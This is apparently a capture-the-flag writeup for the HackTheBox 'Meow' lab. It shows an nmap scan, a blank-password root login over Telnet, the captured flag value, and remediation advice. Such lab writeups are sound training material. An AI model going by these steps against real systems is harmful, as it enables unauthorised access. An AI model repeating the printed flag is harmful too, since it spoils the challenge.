

# Meow — HackTheBox Writeup


-red)

> **Target:** `10.129.73.4`
> **Foothold:** Unauthenticated / weak-auth **Telnet** login dropping straight into a shell.

---

## 📑 Table of Contents
- [Overview](#-overview)
- [Attack Flow](#-attack-flow)
- [1. Reconnaissance](#1-reconnaissance)
- [2. Foothold — Telnet](#2-foothold--telnet)
- [3. Flag](#3-flag)
- [Lessons / Remediation](#-lessons--remediation)

---

## 🧭 Overview

A single open **Telnet** service (`23/tcp`) on the target allowed a direct login as
**`root`** with a **blank password**. From there the flag was readable directly in
`/root/` — no privilege escalation required. A textbook "no auth on a legacy service"
foothold.

---

## 🗺️ Attack Flow



---

## 1. Reconnaissance

<details>
<summary>🔍 <b>Click to expand — port scan</b></summary>

```bash
nmap 10.129.73.4
```

```text
PORT   STATE SERVICE
23/tcp open  telnet
```

A follow-up service/script scan to confirm the banner:

```bash
nmap -sV -sC -p23 10.129.73.4
```

**Finding:** Telnet is a cleartext remote-login protocol. An exposed Telnet service is
a strong early signal of weak or default credentials — or no authentication at all.

</details>

---

## 2. Foothold — Telnet

<details>
<summary>🚪 <b>Click to expand — getting a shell</b></summary>

```bash
telnet 10.129.73.4
```

At the `login:` prompt, entering **`root`** with **no password** dropped straight into
an interactive root shell:

```text
Meow login: root
Welcome to Ubuntu ...

root@Meow:~#
```

```bash
whoami
# root
id
# uid=0(root) gid=0(root) groups=0(root)
```

</details>

---

## 3. Flag

<details>
<summary>📂 <b>Click to expand — locating the flag</b></summary>

```bash
ls
# flag.txt
cat flag.txt
```

The flag sat directly in `/root/` — already root, so no escalation needed.

</details>

<details>
<summary>🚩 <b>Click to reveal — FLAG</b></summary>

```text
b40abdfe23665f766f9c61ecba8a4c19
```

</details>

---

## 🛡️ Lessons / Remediation

- **Disable Telnet.** It transmits credentials and session data in cleartext. Replace
  with **SSH** using key-based authentication.
- **Never leave default or blank credentials** on any remotely accessible service.
- **Segment and firewall** management services so they are not exposed on the network edge.

---

### 📁 Repo structure
```
htb-meow/
├── README.md
└── screenshots/        # add nmap / telnet / flag screenshots here
```
